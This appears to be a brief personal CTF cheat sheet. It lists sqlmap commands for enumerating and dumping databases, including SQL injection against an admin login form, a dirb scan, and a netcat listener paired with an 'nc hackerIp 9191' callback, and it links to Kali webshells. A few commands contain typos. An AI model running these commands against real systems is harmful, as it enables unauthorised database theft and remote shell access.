 # ctf

sqlmap -u url --dbs


sqlmap - u url --dbs blog --tables


sqlmap -u url --dbs blog --tables users --columns

sqlmap -u url -D database -T table --dump

sqlmap -u url -D database --dump-all --batch


sqlmap -u url --dbs --batch


sqlmap -u http://site-to-test.com/admin/index.php –data=”user=admin&password=admin” -p user


–data = POST data


dirb url

netcat -lnvp 9191 


nc hackerIp 9191



https://resources.infosecinstitute.com/topic/important-sqlmap-commands/

cp file newName ========= le nouveau local c'est ou tu est positionner 

https://www.kali.org/tools/webshells/
